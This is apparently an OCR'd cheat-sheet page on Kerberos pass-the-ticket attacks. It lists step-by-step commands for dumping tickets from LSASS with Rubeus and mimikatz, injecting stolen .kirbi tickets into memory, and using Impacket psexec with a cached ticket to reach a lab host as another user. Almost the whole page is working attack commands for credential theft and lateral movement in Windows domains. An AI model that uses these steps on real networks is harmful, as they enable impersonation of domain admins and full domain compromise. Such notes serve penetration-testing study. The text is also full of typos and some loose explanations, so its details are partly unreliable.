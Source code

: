 
- using Rubeus

1. First we need to be a user of administrator group for this attack

2. We run following command to dump all the tickets from lsaas

> rubues.exe dump

3. Now we need to look for Admin users or any users which have krbtgt service access meaning they are kerberos service accounts and if we are succesful the whole domain can be compromised

3. We can now will now add the contennts of the ticket to be compromised in a file using powershell

> [IO.File]::WriteAllBytes("ticket.kirbi", [Convert]::FromBase64String("BASE64TICKETCONTENTS"))

4. Now a file named ticket.kirbi is made and we can now inject this ticket into memory to impersonate as the ticket owner	
 
> .\Rubeus.exe ptt /ticket:ticket.kirbi

5. NOw we have priveleges of the user same as whse ticket we just exploited


- using mimikatz

This attack requires atleast loacl administrator priveleges 

1. Run mimikatz to get in its shell

> mimikatz.exe

2. check our priveleges that if we can perfrom this attack or not

> privilege::debug

3. Now we export the tickets in our working directory

> sekurlsa::tickets /export  (we can also specify different things to export instaead of tickets . The sekrulsa support many different things to be dumped)

4. we must choose those .kirbi tickets which have full domain access (krbtgt) and also admin access.They should have this keyword in it

5. Now we will use this ticket and impersonate as domain admin

> kerberos::ptt ticketname 
 

6. The following command will verify if we succesfuly cached the domain admin tikcet in our cache table

> klist


- using Impacket

1. First we add our ticket file to default env variable if Impacket
 
> export KRB5CCNAME=ticket.ccache  

2. Now connect to the machine using ps exec

> python psexec.py jurassic.park/trex@labwws02.jurassic.park -k -no-pass
